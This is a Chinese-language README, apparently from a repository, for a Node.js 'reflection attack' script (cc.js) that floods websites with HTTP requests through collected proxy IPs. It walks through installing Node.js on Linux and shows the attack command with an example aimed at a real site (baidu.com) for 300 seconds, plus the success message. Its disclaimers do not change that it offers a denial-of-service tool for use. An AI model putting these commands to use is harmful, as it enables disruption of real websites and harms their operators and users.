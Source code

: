 # 无心反射攻击脚本


#### 软件架构
软件架构说明
1. 脚本更新了修复了完整代码

2. 脚本运行环境为Linux环境

3. 请勿贩卖本脚本用来其他活动


#### 安装教程

1.  服务器安装Linux系统
2.  Linux执行安装js环境
3.  这下面是为js安装指令

yum install wget
wget https://nodejs.org/dist/v10.15.3/node-v10.15.3-linux-x64.tar.xz
tar xvJf node-v10.15.3-linux-x64.tar.xz
mv node-v10.15.3-linux-x64 /usr/local/node-v10
ln -s /usr/local/node-v10/bin/node /bin/node
ln -s /usr/local/node-v10/bin/npm /bin/npm
echo 'export PATH=/usr/local/node-v10/bin:$PATH' >> /etc/profile
source /etc/profile
npm install forever -g

4. 采集代理IP保存为ip.txt


#### 使用说明

1.  攻击指令

node cc.js [主机] [时间] [代理.txt]

事例指令:

node cc.js http://baidu.com 300 ip.txt

3.  攻击成功会显示以下

GET Test has been sent to http://baidu.com for 300seconds


####其他说明
1. 脚本来源于网络搜集
2. 禁止攻击其正规网站
3. 作者不承担任何责任

#### 参与贡献

1.  无心   邮箱2497290435.com


－－－－－－红十字国际网安－无心



